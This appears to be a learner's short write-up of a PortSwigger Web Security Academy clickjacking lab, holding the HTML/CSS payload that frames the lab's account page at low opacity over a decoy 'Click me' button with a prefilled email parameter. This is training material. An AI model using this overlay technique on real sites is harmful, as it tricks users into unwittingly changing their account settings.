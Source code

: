 # [ClickJacking] Lab: Clickjacking with form input data prefilled from a URL parameter (1)

---

![Untitled](%5BClickJacking%5D%20Lab%20Clickjacking%20with%20form%20input%20da%2051b521c5bacc48e4aad18806933c8c8c/Untitled.png)

would this work as get request? 

![Untitled](%5BClickJacking%5D%20Lab%20Clickjacking%20with%20form%20input%20da%2051b521c5bacc48e4aad18806933c8c8c/Untitled%201.png)

well not exactly the `/changeEmail`  only accepts POST 

but this worked: 

![Untitled](%5BClickJacking%5D%20Lab%20Clickjacking%20with%20form%20input%20da%2051b521c5bacc48e4aad18806933c8c8c/Untitled%202.png)

```jsx
<head>
	<style>
		#target_website {
			position:relative;
			width:508px;
			height:700px;
			opacity:0.10001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			left:100px;
			top:450px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	Click me
	</div>
	<iframe id="target_website" src="https://0a17005304ec17fa807880d400300016.web-security-academy.net/my-account?email=lab%40t.com&csrf=Sb0TOe9xJsveMPSQKORMlKLGet849tYU">
	</iframe>
</body>
```

this was the payload

 

![Untitled](%5BClickJacking%5D%20Lab%20Clickjacking%20with%20form%20input%20da%2051b521c5bacc48e4aad18806933c8c8c/Untitled%203.png)